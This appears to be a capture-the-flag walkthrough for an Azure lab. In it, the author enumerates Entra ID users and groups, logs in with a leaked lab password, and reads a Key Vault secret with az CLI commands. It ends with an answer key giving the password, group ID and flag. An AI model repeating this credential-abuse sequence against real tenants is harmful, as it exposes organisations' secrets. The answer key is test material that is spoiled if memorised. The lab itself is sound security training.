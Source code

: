 # Day 16: The Wareville’s Key Vault grew three sizes that day.

**Connection to the Machine:**
To begin, I logged into the Azure Portal using the given credentials.

## Approach:

- Launched Azure Command-Line Interface:

  ![image](https://github.com/user-attachments/assets/4d0a2a4b-5552-45e9-bd76-f72fe315db08)

**Ran the following commands:**

- `az ad user list`
  
  ![image](https://github.com/user-attachments/assets/0b9d2fb8-a9e2-40a7-927b-6de5794766b3)

-  `az ad group list`

  ![image](https://github.com/user-attachments/assets/f2d29558-30e0-47e1-b299-c7de28337267)


-  `az ad group member list --group "Secret Recovery Group"`

  ![image](https://github.com/user-attachments/assets/1186c56b-dee3-4183-bc1d-80a43cf798bf)

- `az account clear`
- `az login -u wvusr-backupware@aoc2024.onmicrosoft.com -p R3c0v3r_s3cr3ts!`
  
  ![image](https://github.com/user-attachments/assets/6780982b-d418-4eb2-9890-64fe14e148a2)

- `az role assignment list --assignee 7d96660a-02e1-4112-9515-1762d0cb66b7 --all`

- `az keyvault list`
  
  ![image](https://github.com/user-attachments/assets/623acd1a-3f2c-4bf4-a649-f6e5fbe2b977)

- `az keyvault secret list --vault-name warevillesecrets`

  ![image](https://github.com/user-attachments/assets/7db8fe11-d0c8-4fbc-8f53-4c4415cf83f5)

- `az keyvault secret show --vault-name warevillesecrets --name aoc2024`

  ![image](https://github.com/user-attachments/assets/8b11347e-6a3b-4e45-9439-cc929ea31c32)



---

## Answers to the given questions:

What is the password for backupware that was leaked?

```
R3c0v3r_s3cr3ts!
```

---

What is the group ID of the Secret Recovery Group?


```
7d96660a-02e1-4112-9515-1762d0cb66b7
```

---

What is the name of the vault secret?

```
aoc2024
```

---

What are the contents of the secret stored in the vault?

```
WhereIsMyMind1999
```

---

![image](https://github.com/user-attachments/assets/a92676fe-14b4-49a9-b6a3-7ab55df76962)
